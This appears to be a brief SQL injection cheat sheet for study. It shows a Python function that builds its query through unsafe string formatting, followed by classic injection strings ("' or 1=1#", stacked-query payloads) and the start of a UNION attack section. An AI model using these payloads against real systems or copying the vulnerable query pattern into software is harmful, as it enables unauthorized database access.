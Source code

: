 # SQLi
## The source is [here](https://owasp10-c874b6974594.notion.site/Code-Example-450b5fc335614b348956cb6087dfaa2d)


### The Basic and usefull Commands
```python
def user_exists(username: str) -> bool:
    with connection.cursor() as cursor:
        cursor.execute("""
            SELECT
                Id
            FROM
                users
            WHERE
                username = '%s'
        """ % username)
        result = cursor.fetchone()
    id, = result
    return id
```
* attack is like this
```sql
user_exists('test') #False
#select id from users where username = 'test'

user_exists("'; select 1=1; --") #True
#select id from users where username = ''; select true; --'
```

```sql
'; select 1=1; -—
```
```sql
'; select 1=1; #
```
### Simplest injection
```sql
' or 1=1#
```
```sql
' or 1=1--
```
### UNION ATTACK 
when a web application show Direct result, we should use UNION Attack

```sql
select * from news where news_id = $NEWSID;
select * from news where news_id = '$NEWSID';
select * from news where news_id = "$NEWSID";
```
